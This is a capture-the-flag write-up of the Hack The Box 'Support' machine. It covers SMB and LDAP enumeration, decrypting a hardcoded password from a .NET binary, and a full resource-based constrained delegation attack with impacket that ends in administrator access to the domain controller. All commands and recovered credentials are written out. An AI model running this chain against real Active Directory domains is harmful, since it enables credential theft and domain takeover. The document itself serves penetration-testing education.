# Support HTB Writeup

## Enumeration

---

#### Service and port scanning by nmap

```bash
nmap -sV -sC -Pn 10.129.58.91 
```

**Result**

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-18 21:24:10Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2026-05-18T21:24:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

This indicates that the target is part of a domain environment, and that LDAP and SMB are exposed, so I will try to enumerate SMB shares.

---

#### using enum4linux to enumerate more information about domain

```bash
enum4linux-ng support.htb
```

```
==========================
|    Target Information    |
==========================
[*] Target ........... support.htb
[*] Username ......... ''
[*] Random Username .. 'iqwlyvdg'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)

====================================
|    Listener Scan on support.htb    |
====================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

===================================================
|    Domain Information via LDAP for support.htb    |
===================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: support.htb

==========================================================
|    NetBIOS Names and Workgroup/Domain for support.htb    |
==========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

========================================
|    SMB Dialect Check on support.htb    |
========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
SMB 1.0: false
SMB 2.0.2: true
SMB 2.1: true
SMB 3.0: true
SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

==========================================================
|    Domain Information via SMB session for support.htb    |
==========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC
NetBIOS domain name: SUPPORT
DNS domain: support.htb
FQDN: dc.support.htb
Derived membership: domain member
Derived domain: SUPPORT
```

This shows that unauthenticated SMB enumeration is possible, so I will list SMB shares using `smbclient`.

### SMB shares

```bash
smbclient -L support.htb
```



There are multiple shares, but one interesting non-default share:

```
support-tools
```

Let's check its content:

```bash
smbclient //10.129.58.91/support-tools
```



Most files are tools, but one interesting file:

```
UserInfo.exe.zip
```

Download it:

```bash
smb: \> get UserInfo.exe.zip
```



---

## Reverse Engineering

After decompiling the binary, we found hardcoded values:

```c++
private static readonly string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"; 
private static readonly string key = "armando";
```

**For reverse engineering, you can either use AI tools like ChatGPT or Google Gemini for quick analysis, or dedicated tools such as ILSpy to decompile .NET assemblies and inspect the source code**

---

## Decrypt Password

```py
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

try:
    dec = bytearray(base64.b64decode(enc_password))
    for i in range(len(dec)):
        dec[i] = dec[i] ^ ord(key[i % len(key)]) ^ 223

    password = dec.decode('latin-1')

    print("\n[+] Success! Decrypted Password:")
    print(f"    {password}\n")

except Exception as e:
    print(f"[-] Error decrypting password: {e}")
```

Output:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

---

## LDAP Enumeration

Using the extracted password:

```bash
ldapsearch -x -H ldap://support.htb -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "(objectClass=user)"
```



This returned useful information about users and groups, and I noticed another possible credential:

```
support : Ironside47pleasure40Watchful
```

---

## Initial Access

I used WinRM since it provides remote command execution over HTTP (port 5985) and does not rely on SMB writable shares or service creation mechanisms required by PsExec.

```bash
evil-winrm -i support.htb -u "support" -p "Ironside47pleasure40Watchful"
```



**Done and Got user access**

---

## BloodHound Enumeration

```bash
bloodhound-python -u "support" -p "Ironside47pleasure40Watchful" -d support.htb -ns 10.129.1.168 -c All
```



After uploading the data to BloodHound, I found that the user `support` has **GenericAll** privilege over the DC object.


This means we have full control over the DC computer object.

---

## Exploitation 

### Create fake computer

```bash
impacket-addcomputer -computer-name 'FAKEPC$' -computer-pass 'Password123' -dc-ip 10.129.1.168 'support.htb/support:Ironside47pleasure40Watchful'
```



**Confirm using NetExec**

```bash
nxc smb 10.129.1.168 -u support -p 'Ironside47pleasure40Watchful' --computers
```



---

### Modify delegation

```bash
impacket-rbcd -delegate-from 'FAKEPC$' -delegate-to 'DC$' -action 'write' -dc-ip 10.129.1.168 'support.htb/support:Ironside47pleasure40Watchful'
```



Now `FAKEPC$` is allowed to impersonate users on the DC.

---

### Request Service Ticket (TGS) for CIFS (SMB) Service

```bash
impacket-getST -spn 'cifs/dc.support.htb' -impersonate administrator -dc-ip 10.129.1.168 'support.htb/FAKEPC$:Password123'
```



---

### Export the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

---

### Exploit

```bash
impacket-smbexec -k -no-pass administrator@dc.support.htb
```



**Done and get root Flag**
